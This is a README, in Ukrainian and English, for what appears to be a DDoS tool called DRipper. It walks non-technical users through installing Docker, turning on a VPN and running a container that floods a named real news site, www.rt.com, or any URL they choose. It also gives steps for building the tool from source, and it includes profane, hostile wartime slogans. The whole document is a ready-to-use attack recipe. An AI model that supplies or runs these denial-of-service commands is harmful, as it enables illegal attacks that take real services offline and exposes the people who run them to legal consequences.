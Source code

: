 # Для нетехнічних котиків і киць
Інструкція як шкварити сайти хуйловської пропаганди:
1. Встановіть Docker Desktop за цим посиланням:
    https://docs.docker.com/desktop/windows/install/
2. Встановіть і увімкніть VPN
3. Запустіть термінал:
    http://xn--j1a5b.dp.ua/yak-vidkriti-komandnij-ryadok-v-windows-10/
4. Запустіть наступну команду, щоб шварити www.rt.com
    docker run --rm -it nitupkcuf/ddos-ripper:latest www.rt.com
5. Щоб призупинити зашквар і трохи провітрити хату натисніть Ctrl+C

Слава Україні! Смерть ворогам!

# Docker
1. Install Docker Desktop for your plaform:
  - [Windows](https://docs.docker.com/desktop/windows/install)
  - [Linux](https://docs.docker.com/engine/install/ubuntu/)
  - [Mac](https://docs.docker.com/desktop/mac/install)
2. Run command, put your actual url instead of www.rt.com :
```
docker run --rm -it nitupkcuf/ddos-ripper:latest www.rt.com
```

# Run from CLI/sources
Python 3.10

```
git clone https://github.com/nanabanano/runner.git
cd runner
pip3 install pyinstaller
pip3 install -r requirements.txt

# mac
pyinstaller app.py --collect-all dns --add-data="headers.txt:." --add-data="DRipper.py:." --onefile

# win
pyinstaller --collect-all dns --add-data "headers.txt;." --add-data "DRipper.py;." --onefile app.py

# cli
python3 app.py
```
- [or]
```
chmod +x app.py
./app.py
```

see dist folder

